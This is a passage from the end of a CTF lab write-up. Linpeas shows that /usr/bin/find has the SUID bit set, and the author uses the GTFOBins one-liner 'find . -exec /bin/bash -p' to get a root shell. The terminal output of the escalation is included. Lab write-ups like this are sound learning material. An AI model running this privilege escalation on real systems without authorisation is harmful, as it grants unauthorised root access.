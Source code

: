 Running linpeas shows us that `find` has suid bit.

```bash
-rwsr-x--- 1 root zeamkish 313K Feb 18  2020 /usr/bin/find
```

A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) show us the command we need to run to get root.

```bash
find . -exec /bin/bash -p \; -quit
```

```terminal
zeamkish@ip-10-10-108-192:~$ find . -exec /bin/bash -p \; -quit
bash-5.0# whoami
root
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

## References
